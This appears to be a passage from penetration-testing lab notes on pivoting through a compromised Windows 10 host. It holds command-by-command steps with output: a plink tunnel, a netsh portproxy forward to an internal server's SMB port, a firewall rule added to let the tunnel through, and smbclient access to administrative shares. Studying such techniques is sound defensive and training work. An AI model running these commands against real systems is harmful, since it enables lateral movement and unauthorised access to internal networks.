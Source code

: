  
With **plink** set up through our remote shell on the Win box, we can attack via our target:  
```bash
sudo nmap -sS -sV 127.0.0.1 -p 1234  
	...  
	PORT     STATE SERVICE VERSION  
	1234/tcp open  mysql   MySQL 5.5.5-10.1.31-MariaDB
```
****NOTE: Make sure ssh.service is started on kali first. & make sure MySQL is started on Win first.  
  
  
  
### NETSH

Scenario:  
	Compromised Win10 (10.11.0.22) & privesc, 2 nic's & a Win Server2016 (192.168.1.110) w/ port 445 open.  
	Since we're SYSTEM on Win10, we don't deal w/ UAC.  
  
****NOTE: For this to work, the Windows system must have the _**IPHelper**_ service running and _**IPv6**_ support must be enabled for the interface we want to use.  

```powershell
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110  
  
netstat -anp TCP | find "4455"                                                
	TCP    10.11.0.22:4455        0.0.0.0:0              LISTENING  
```
.  
	**v4tov4** - IPv4-to-IPv4  
	**portproxy** - Proxy  
	**listenaddress=10.11.0.22** - Listener IP (Win10)  
	**listenport**=**4455** - Listener port (Win10)  
	**connectaddress=192.168.1.110** - Connector IP (Server2016)  
	**connectport=445** - Connector port (Server2016)  
  
  
By default, the FW will block use of our tunnel (disallows inbound traffic on 4455).  
Since we're SYSTEM, we'll change FW rules:  
```powershell
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow  
	Ok.
```

  
Try to connect through SAMBA:  
```bash
smbclient -L 10.11.0.22 --port=4455 --user=Administrator  
Password for [WORKGROUP\Administrator]:  
  
        Sharename       Type      Comment  
        ---------       ----      -------  
        ADMIN$          Disk      Remote Admin  
        C$              Disk      Default share  
        Data            Disk        
        IPC$            IPC       Remote IPC  
        NETLOGON        Disk      Logon server share   
        SYSVOL          Disk      Logon server share   
Reconnecting with SMB1 for workgroup listing.  
do_connect: Connection to 192.168.126.10 failed (Error NT_STATUS_IO_TIMEOUT)  
Unable to connect with SMB1 -- no workgroup available  
```
	***NOTE (Not error shown): If this doesn't work, ensure _/etc/samba/smb.conf_ has “min protocol SMB2” in it.  
  